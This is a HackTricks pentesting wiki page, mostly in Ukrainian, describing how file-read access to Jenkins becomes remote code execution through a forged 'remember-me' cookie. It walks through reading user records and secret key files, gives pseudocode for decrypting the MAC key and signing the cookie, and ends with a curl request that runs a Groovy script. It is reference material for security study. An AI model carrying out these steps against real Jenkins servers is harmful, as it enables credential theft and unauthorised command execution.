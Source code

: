 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

У цьому блозі можна знайти чудовий спосіб перетворити вразливість Local File Inclusion у Jenkins на RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Це підсумок, створений штучним інтелектом, частини посту, де зловмисник використовує підроблений cookie для отримання RCE, зловживаючи читанням локальних файлів, поки я не матиму часу створити власний підсумок:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" має бути увімкнено (налаштування за замовчуванням).
* **Access Levels:** Зловмисник потребує загальних/читальних прав.
* **Secret Access:** Можливість читати як бінарний, так і текстовий вміст з ключових файлів.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Отримати конфігурацію користувача та секрети з `$JENKINS_HOME/users/*.xml` для кожного користувача, щоб зібрати:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Витягти криптографічні ключі, що використовуються для підписування cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Додає одну годину до поточного часу
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Перетворити головний ключ у формат ключа AES128
decrypted = AES.decrypt(macFile, key)  // Розшифрувати .mac файл
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Обчислити HMAC, використовуючи токен і MAC ключ
tokenSignature = bytesToHexString(mac)  // Перетворити MAC у шістнадцятковий рядок
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 кодувати дані cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Зробити запит до `/crumbIssuer/api/json`, щоб отримати `Jenkins-Crumb`.
* Захопити `JSESSIONID` з відповіді, який буде використано разом з cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy скрипт може бути використаний для виконання команд на системному рівні або інших операцій у середовищі Jenkins.

Приклад команди curl демонструє, як зробити запит до Jenkins з необхідними заголовками та cookie для безпечного виконання довільного коду.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
